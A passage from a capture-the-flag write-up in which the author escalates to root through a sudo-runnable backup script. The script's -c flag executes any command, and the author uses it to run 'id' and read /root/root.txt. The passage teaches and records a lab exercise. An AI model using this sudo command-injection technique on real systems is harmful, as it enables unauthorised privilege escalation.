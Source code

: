 ```bash
```

From the above code , we could understand that it backups all the music files but this particular lines stand out 

## getopts

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```
Here it asks for a input flag `-c` using `getopts` and executes the i/p command given to `-c` at the end of the script 

```bash
cmd=$($command)
echo $cmd
```

> **getopts** is a very convenient bash script utility, which helps you to conveniently handle the passing of flags

Let try giving `id` command as i/p in `-c` flag

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c id

[redacted]

Backup finished
uid=0(root) gid=0(root) groups=0(root)
```
It works !! 

## root.txt 🚩

Lets now retreive **root.txt** flag 

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

[redacted]

Backup finished
flag{Than5s****************enJ053d}
```